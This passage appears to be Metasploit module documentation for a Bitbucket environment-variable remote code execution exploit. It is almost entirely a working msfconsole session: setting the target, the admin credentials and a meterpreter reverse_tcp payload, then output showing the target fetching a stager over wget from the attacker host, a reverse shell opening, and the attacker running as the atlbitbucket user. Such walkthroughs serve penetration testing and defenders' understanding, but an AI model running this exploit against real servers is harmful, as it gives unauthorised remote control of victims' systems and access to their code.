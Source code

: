 ### Ubuntu 22.04 x64 - Bitbucket `v8.4.0` with mesh.enabled set to false, Linux Dropper

```
msf > use exploit/multi/http/bitbucket_env_var_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/bitbucket_env_var_rce) > set target 1
target => 1
msf exploit(multi/http/bitbucket_env_var_rce) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.149
rhost => 192.168.140.149
msf exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf exploit(multi/http/bitbucket_env_var_rce) > set username administrator
username => administrator
msf exploit(multi/http/bitbucket_env_var_rce) > set password S3cureP@ssword
password => S3cureP@ssword
msf exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Versions 8.* are vulnerable only if the mesh setting is disabled
[+] The target appears to be vulnerable.
[*] No accessible repositories. Will attempt to create a repo
[*] Failed to find valid project information. Will attempt to create repo
[*] Project creation was successful
[+] Successfully created repository 'IuNYsZZPl'
[+] Commits added: 560d760fdcbcf210c2c1b6dd04663381002066e5, 53ada0136f82899451c16a00cb939225dba53336
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/qt9f0M
[*] Client 192.168.140.149 (Wget/1.21.2) requested /qt9f0M
[*] Sending payload to 192.168.140.149 (Wget/1.21.2)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Sending stage (1017704 bytes) to 192.168.140.149
[*] Meterpreter session 10 opened (192.168.140.1:4444 -> 192.168.140.149:43360) at 2023-03-14 19:00:00 -0500
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Changing user name back to 'administrator'
[+] Repository has been deleted
[+] Project has been deleted

meterpreter > getuid
Server username: atlbitbucket
```

